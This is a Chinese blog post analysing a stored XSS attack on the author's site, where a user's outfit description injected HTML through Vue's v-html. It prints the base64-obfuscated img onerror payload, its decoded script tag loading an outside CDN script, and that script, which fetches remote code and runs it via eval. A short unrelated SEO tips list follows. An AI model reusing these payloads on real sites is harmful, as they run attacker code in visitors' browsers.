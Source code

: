 title: 前端安全与防范
date: 2019-04-16 9:36:35
categories: security
tags: security
---

## 前言

今天主站遭受了xss攻击，起因是一个普通用户发表了一个穿搭，后端接收到异常警报排查后发现用户的穿搭的**描述**中带有:

`<p><body/hidden><img src=x onerror=document['write'](atob('PGJvZHkvaGlkZGVuPjxzY3JpcHQgc3JjPWh0dHBzOi8vczUubW9ndWNkbi5jb20vbWxjZG4vYzQ1NDA2LzE5MDQxNV82M2o2NWxlazRkMjJnODZjNWhiN2thOThsOWZmZT48L3NjcmlwdD4='))></p>`

因为穿搭look中带有格式化后html的描述内容，所以直接通过**v-html**指令输出了描述内容：

```
<div v-if="from === 'detail'" v-html="content" ref="content" style="-webkit-user-select: text"></div>
```

这个时候攻击的html标签将会直接被注入到页面中，这里还涉及到另外一个知识点：

* btoa（base64加密）
* atob （base64解密）

<div><!--more--></div>

经过`atob`解密后：

```
atob('PGJvZHkvaGlkZGVuPjxzY3JpcHQgc3JjPWh0dHBzOi8vczUubW9ndWNkbi5jb20vbWxjZG4vYzQ1NDA2LzE5MDQxNV82M2o2NWxlazRkMjJnODZjNWhiN2thOThsOWZmZT48L3NjcmlwdD4=')

// 转变成

<body/hidden><script src=https://s5.mogucdn.com/mlcdn/c45406/190415_63j65lek4d22g86c5hb7ka98l9ffe></script>

// 一般攻击者都不会将，body隐藏。而是直接通过盗用信息
```

通过`document['write']`将dom写入页面后，通过`mogucdn`资源将会下载脚本：

```
var ua = navigator.userAgent.toLowerCase();

// 在微信环境下，将会通过ajax请求获取站外脚本，获取完成后通过eval动态执行
if (/micromessenger/.test(ua)) {
    $.get('https://api.ruanwin.com/j',function(d) {
        window['ev' + 'al'](d);
    })
}
```




## SEO

1.合理的title、description、keywords:搜索引擎对于三项的权重逐个减小。
2.使用语义化标签，爬虫更容易理解和抓取
3.重要内容不要使用js外部引入，爬虫不容易抓取
4.网页加载速度也是爬虫评判的重要标准
5.每个页要只能出现一次H1标签，H2~H6标签可以多次，这样做是为了加重H1标签的权重。 


